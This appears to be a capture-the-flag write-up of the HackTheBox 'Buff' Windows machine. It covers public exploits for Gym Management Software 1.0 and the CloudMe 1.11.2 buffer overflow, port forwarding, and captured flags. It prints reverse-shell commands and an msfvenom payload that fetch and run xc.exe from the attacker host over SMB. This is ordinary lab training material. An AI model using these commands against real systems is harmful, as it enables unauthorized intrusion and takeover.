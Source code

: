 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2020-11-21-buff-hackthebox
tags:
- cve
- hackthebox
- linux
- port forwarding
title: Buff @ HackTheBox
---
```


Buff is a 20-point Windows Machine on HackTheBox, created by egotisticalSW. It involves 2 simple public exploits and forwarding a port.

## User

As usual we start with a portscan:

```
nmap -Pn -sV -sC buff.htb
...
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

When we visit the site in a browser we can see a fitness site. On contact it shows:

```
mrb3n's Bro Hut
Made using Gym Management Software 1.0 
```

A quick google search shows this [exploit](https://www.exploit-db.com/exploits/48506), which gives us a shell as buff\\shaun:

```
python exploit.py http://buff.htb:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload>
```

To leave this really inconvinient shell, we use smb to pull in and start a xc shell:

```
nc -lvp 1337
\\10.10.14.6\public\xc.exe 10.10.14.6 1337
```

Now we can read the user flag:

```
./xc -l -p 1337

        __  _____
        \ \/ / __|
        >  < (__
        /_/\_\___| by @xct_de
                   build: GLvLrMgcikmgHFyx

2020/11/21 11:13:53 Listening on :1337
2020/11/21 11:13:53 Waiting for connections...
2020/11/21 11:13:53 Connection from 10.10.10.198:49826
2020/11/21 11:13:53 Stream established
[xc]:type \users\shaun\desktop\*
464f8c6c1550f2d071d3e1702801fba5
```

## Root

In Downloads we can find an usual binary:

```
[xc]:!shell
cd \users\shaun 
C:\Users\shaun>dir Downloads
...
16/06/2020  15:26        17,830,824 CloudMe_1112.exe
```

A quick google search shows various public buffer overflow exploits for this exact version. Running `netstat -ano` shows that the service is listening on localhost on the port the exploits mention:

```
netstat -ano | findstr 8888
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       8540
```

A quick side note: This was super unstable on release night and several people, including me, did not have this port even open.

I chose this [exploit](https://www.exploit-db.com/exploits/44470). We have to replace the shellcode though – an easy way to do it is via msfvenom:

```
msfvenom -f python -p windows/exec CMD='cmd.exe /c "\\10.10.14.6\public\xc.exe 10.10.14.6 1338"'
```

After replacing the shellcode, we use xc to forward the port 8888 back to us:

```
!lfwd 8888 localhost 8888
```

We then run the exploit and get a shell back as administrator:

```
./xc -l -p 1338
...
[xc]:whoami
buff\administrator
type \users\administrator\desktop\*
...
6204e76cfbd6001662e4ec757c09f59b
```

This box had many stability issues and running public exploits does not teach much, so I did not really like it.